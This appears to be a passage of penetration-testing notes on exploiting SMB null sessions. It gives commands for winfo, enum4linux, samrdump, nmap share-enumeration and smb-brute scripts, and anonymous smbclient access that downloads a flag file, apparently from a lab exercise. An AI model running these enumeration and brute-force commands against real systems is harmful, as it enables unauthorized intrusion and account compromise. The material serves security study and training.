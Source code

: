 * Checking password policies before running an authentication attack lets you fin-tune an attack tool to:
  * Prevent accounts locking
  * Prevent false positives
  * Choose your dictionary or your bruteforcer configuration \(as knowing the min and max lengh of a password helps to save time\)

**Exploiting Null Session with Winfo**

Automates null session exploitation.

Use with `-n` to tell the tool to use null sessions

```bash
winfo <target_IP> -n
```

**Exploiting Null sessions with Enum4linux**

A PERL script that can perform the same operations of `enum` and `winfo`, supplying some other features:

* User enumeration
* Share enumeration
* Group and member enumeration
* Password policy extraction
* OS info detection
* A nmblookup run
* Printer information extraction

```bash
# Look for null sessions in the network
nmap -sS -p135,139,445 <IP>

# => enum4linux
# -n
# -P Password policies of the system
# -S shares available in the remote machine
# brute force:
enum4linux -s /usr/share/enum4linux/share-list.txt <IP>
# -a do all simple enumeration

# => samrdump
# It's under : /usr/share/doc/python-impacket-doc/examples
python samrdump <IP>

# => nmap
nmap -script=smb-enum-shares <IP>
nmap -script=smb-brute <IP>
```

Use samba in Kali:

```bash
> vi /etc/samba/smb.conf

# Under [global]
client min protocol = CORE
client max protocol = SMB3
client use spnego = no
client ntlmv2 auth = no

# Get file shares using smbclient
smbclient -L WORKGROUP -I <IP> -N -U ""

# Access to a folder
smbclient \\\\<IP>\\WorkSharing -N
smb: \> ls
smb: \> get flag.txt /home/kali/Desktop/flag.txt
```